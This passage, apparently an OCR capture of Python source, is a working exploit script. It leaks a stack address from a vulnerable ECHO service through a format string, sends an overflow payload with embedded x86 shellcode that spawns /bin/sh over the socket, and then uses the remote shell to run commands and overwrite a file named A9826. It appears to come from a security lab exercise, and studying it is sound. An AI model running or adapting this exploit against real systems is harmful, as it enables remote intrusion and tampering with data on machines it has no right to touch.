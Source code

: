 ```python
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xEB, 0x71, 0x5D, 0x31,
                0xC0, 0x31, 0xDB, 0x31, 0xC9, 0x31, 0xD2, 0x31, 0xFF, 0x31, 0xF6, 0xB0, 0x22, 0x89, 0xC6, 0xB0, 0xC0,
                0xB1, 0x01, 0x66, 0xC1, 0xE1, 0x0C, 0xB2, 0x03, 0x4F, 0xCD, 0x80, 0x89, 0xC1, 0x31, 0xFF, 0xB3, 0x02,
                0x89, 0xCA, 0x80, 0xC1, 0x04, 0x31, 0xC0, 0x66, 0xB8, 0x70, 0x01, 0xFE, 0xC3, 0xC6, 0x02, 0x10, 0x89,
                0x39, 0xCD, 0x80, 0x39, 0xF8, 0x75, 0xED, 0x8B, 0x01, 0x3C, 0x02, 0x75, 0xE7, 0x89, 0xCA, 0x31, 0xC9,
                0x31, 0xC0, 0xB0, 0x3F, 0xCD, 0x80, 0x41, 0xB0, 0x3F, 0xCD, 0x80, 0x41, 0xB0, 0x3F, 0xCD, 0x80, 0x31,
                0xC0, 0x89, 0x6D, 0x08, 0x89, 0x45, 0x0C, 0x88, 0x45, 0x07, 0xB0, 0x0B, 0x89, 0xEB, 0x8D, 0x4D, 0x08,
                0x8D, 0x55, 0x0C, 0xCD, 0x80, 0xB0, 0x01, 0xCD, 0x80, 0xE8, 0x8A, 0xFF, 0xFF, 0xFF, 0x2F, 0x62, 0x69,
                0x6E, 0x2F, 0x73, 0x68, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41]+[0x0A, 0x00, 0x00, 0x00]+\
               [0x0D,0x00, 0x00, 0x00]+[0x00, 0x91, 0x98, 0xC3, 0xFF, 0x0a]

echo = b'ECHO %x%x%x%x %x\n'

# initialize the socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

# send the ECHO command
s.send(echo)
address = s.recv(4096)
print("Output from ECHO: ", address)
address = address.split()[-1]
address = a2b_hex(address)[::-1] # reverse
address_lower_byte = (address[0] + 0xF6) % 256  # obtain lower byte

i = [0x0A, 0x00, 0x00, 0x00]
len = [0x0C, 0x00, 0x00, 0x00]
payload = base_payload[:200] + i + len +[address_lower_byte]
payload.extend(address)
payload = bytes(payload)
print("Sending the payload: ", payload[50:])

s.send(payload)

# testing the shell
s.send(b'uname\n')
out = s.recv(4096)
print("Output from uname: ", out.decode())

s.send(b'chmod u+w A9826\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())

s.send(b'echo 1000000 > A9826\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())

s.send(b'chmod u-w A9826\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())

s.send(b'exit\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())
```